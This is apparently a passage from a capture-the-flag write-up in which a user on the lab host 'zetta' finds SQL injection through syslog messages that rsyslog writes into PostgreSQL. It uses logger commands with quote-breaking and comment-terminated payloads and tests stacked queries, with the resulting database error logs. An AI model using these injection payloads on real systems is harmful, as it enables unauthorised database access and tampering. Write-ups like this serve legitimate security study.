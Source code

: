 

    roy@zetta:/etc/rsyslog.d$ logger -p local7.info "test"



I get no feedback. And since I can't see the database, I don't know if
that worked. But roy is a member of the `adm` group, so I can read logs.
I'll connect another SSH session and use one to write logs, and another
to `tail -f postgresql-11-main.log` to see new output. This log starts
empty, and only failed queries will go in. Now seems like a good time to
check for SQLi. I'll add a `'` to the end of my message:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "test'"





    roy@zetta:/var/log/postgresql$ tail -f postgresql-11-main.log
    2019-09-01 13:47:56.585 EDT [13852] postgres@syslog ERROR:  syntax error at or near "2019" at character 75
    2019-09-01 13:47:56.585 EDT [13852] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2019-09-01 17:47:56')
    2019-09-01 13:47:56.594 EDT [15468] postgres@syslog ERROR:  syntax error at or near "2019" at character 75
    2019-09-01 13:47:56.594 EDT [15468] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\'','2019-09-01 17:47:56')
    2019-09-01 13:47:56.599 EDT [15469] postgres@syslog WARNING:  there is no transaction in progress



It worked!

### SQLI - POC

To get this to an injection, I need to try to get a query that is
accepted. I notice that syslog is escaping my `'` with a `\`, but then
`postgres` is seeing it as a string, so the next `'` breaks it. I'll try
to use comments to get rid of that issue. Eventually I find a query that
doesn't generate a log:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null)-- -"



If I put this into the template, it would look like:



    INSERT INTO syslog_lines (message, devicereportedtime) values ('test', null)-- -','[date]');



Now I want to test for stacked queries, which is the ability to add a
`;` and then another statement in the same statement. I'll run two
queries:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from syslog_lines;-- -"
    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from notatable; -- -"

